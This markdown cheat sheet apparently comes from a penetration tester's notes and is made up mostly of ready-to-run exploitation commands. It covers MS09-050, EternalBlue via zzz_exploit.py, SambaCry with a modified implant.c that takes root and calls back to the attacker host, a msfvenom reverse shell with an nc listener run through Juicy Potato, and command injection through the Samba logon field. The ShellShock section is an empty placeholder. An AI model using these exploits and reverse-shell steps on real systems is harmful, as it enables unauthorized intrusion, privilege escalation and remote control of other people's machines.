 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit.md">Top of Page</a> |
  <a href="/CheatSheets/2_exploit.md#bottom-of-page">Bottom of Page</a>
</p>

# Exploit
## Table of Contents
* [CVE-2009-2532: SMBv2 Command Value Vulnerability (MS09_050)](#cve-2009-2532-smbv2-command-value-vulnerability-ms09-050)
* [CVE-2017-0144: EternalBlue](#cve-2017-0144-eternalblue)
* [CVE-2017-7494: SambaCry](#cve-2017-7494-sambacry)
* [CVE-2014-6271: ShellShock via SMTP](#cve-2014-6271-shellshock-via-smtp)
* [Juicy Potato](#juicy-potato)
* [Shell via Samba Logon Command](#shell-via-samba-logon-command)

## CVE-2009-2532: SMBv2 Command Value Vulnerability (MS09_050)
Impacts Windows Vista Gold, SP1, and SP2, Windows Server 2008 (32-bit) Gold and SP2, and Windows 7. 
```bash
nmap $TARGET -p445 --script smb-vuln-cve2009-3103 # related vulnerability
wget https://raw.githubusercontent.com/ankh2054/python-exploits/master/ms09-050.py
```

## CVE-2017-0144: EternalBlue
Exploiting this vulnerability requires access to a Named Pipe. NOTE: Windows Vista and newer does not allow anonymous access to Named Pipes. 
```bash
git clone https://github.com/worawit/MS17-010
cd MS17-010
pip install impacket # mysmb.py ships with this exploit. offsec also hosts it on their GitHub
python checker.py $TARGET # check if target is vulnerable and find an accessible Named Pipe
python zzz_exploit.py $TARGET $NAMED_PIPE
```



## CVE-2017-7494: SambaCry
Exploiting this vulnerability depends on your ability to write to a share. Download Proof-of-Concept code from joxeankoret and modify as desired. 
```bash
mkdir exploits
cd exploits
git clone https://github.com/joxeankoret/CVE-2017-7494.git
cd CVE-2017-7494
mv implant.c implant.bak
vim implant.c
```

An example of a modified implant.c file. This source file gets compiled by the provided Python script. 
```c
#include <stdio.h>
#include <stdlib.h>

static void smash() __attribute__((constructor));

void smash() {
setresuid(0,0,0);
system("ping -c2 $LHOST");
}
```

My example payload sends two ICMP packets to my computer. Therefore, the command sentence below is necessary to confirm the exploit works. If you chose to include a reverse shell, you would run something like `sudo nc -nvlp 443` instead.
```bash
sudo tcpdump -i tun0 icmp 
```

Run the exploit. 
```bash
python cve_2017_7494.py -t $RHOST --rhost $LHOST --rport $LPORT
```

## CVE-2014-6271: ShellShock via SMTP
```bash
# code goes here
```

## Juicy Potato
```bash
# download Juicy Potato
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

# upload Juicy Potato
# ftp, smb, http, etc.

# create a reverse shell and then upload it to the target
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o reverse-shell.exe
sudo nc -nvlp $LPORT

# use Juicy Potato to execute your reverse shell
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```

## Shell via Samba Logon Command
```bash
mkdir /mnt/$TARGET
sudo mount -t cifs //$TARGET/$SHARE /mnt/$TARGET
sudo cp $EXPLOIT /mnt/$TARGET
smbclient //$TARGET/$SHARE
logon "=`$EXPLOIT`"
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/2_exploit.md">Top of Page</a> |
  <a href="/CheatSheets/2_exploit.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
